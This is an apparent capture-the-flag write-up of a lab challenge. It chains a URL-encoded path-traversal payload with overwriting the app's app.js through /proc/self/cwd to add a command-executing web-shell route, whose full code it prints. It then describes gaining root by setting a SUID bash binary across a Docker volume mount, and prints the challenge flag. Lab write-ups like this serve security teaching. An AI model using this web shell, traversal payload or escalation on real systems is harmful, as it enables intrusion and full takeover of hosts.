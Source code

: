 ```yaml
---
title: "4T$ CTF 2024 - Homelab ? More like Pwnlab !"
date: "2024-11-11"
tags:
  - writeups
  - ctf
  - docker
  - privilege escalation
  - lfi
toc: true
math: true
bold: true
nomenu: false
---
```


We would start with 2 things:

- Web SSH Access (through the browser)
- Application with simple upload/download functionality

I found that the application does not enforce the paths for uploading and downloading and you can upload/download whatever file you want, you just have to URL encode it like so:

```
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

I've also realized that this application is running in a Docker container, by going through the web SSH, I can see the docker compose file in `/home/admin/docker-compose.yml`.

In the source code of the application I had an odd route called `/restart` this would restart the application, meaning that something is running and it is making sure that this application keeps running even if I exit the process (that's what the `/restart` does). This likely hints that I need to change the application to gain RCE. So I've created another route called `/execute` and I've attached it to the `app.js` which looks like this:

```js
app.get('/execute', (req, res) => {
  const command = req.query.cmd; // Get the command from the query string

  if (!command) {
    return res.send(`
      <p>Please provide a command using the <code>?cmd=</code> query string.</p>
      <p>Example: <code>/execute?cmd=ls</code></p>
    `);
  }

  exec(command, (error, stdout, stderr) => {
    if (error) {
      return res.send(`
        <p><strong>Error:</strong></p>
        <pre>${error.message}</pre>
        <p>Command: <code>${command}</code></p>
      `);
    }

    if (stderr) {
      return res.send(`
        <p><strong>Stderr:</strong></p>
        <pre>${stderr}</pre>
        <p>Command: <code>${command}</code></p>
      `);
    }

    res.send(`
      <p><strong>Output:</strong></p>
      <pre>${stdout}</pre>
      <p>Command: <code>${command}</code></p>
    `);
  });
});
```

Then I've URL encoded it with CyberChief, and uploaded the file to this path: `..%2F..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fcwd%2Fapp.js`, then I restarted the application using the `/restart` route.

After that the route should be available to us, and I can execute arbitrary commands like: `/execute?cmd=ls`

```
Dockerfile
app.js
entrypoint.sh
node_modules
package-lock.json
package.json
public
views
```

Now earlier  docker-compose file (`/home/admin/docker-compose.yml`) which looks like this:

```yaml
services:
	webapp:
		image: webapp
		ports:
			"8080:5555"
		volumes:
			/home/user/nas_storage:/app/public/uploads
```

I can see that the container's path `/app/public/uploads` is mapped to `/home/user/nas_storage` path on the main server which I got web SSH access to, now here are the steps of how to privilege escalate to root:

- On the web SSH, copy the bash binary to the `/home/user/nas_storage/`
- On the docker container, make the bash binary owned by root and set SUID (u+s).
- On the web SSH invoke the bash binary with `-p`

And you should be root. Now you can read the flag located in `/home/admin/flag`

```
4T${pWnD_7h3_pwNl48??!}
```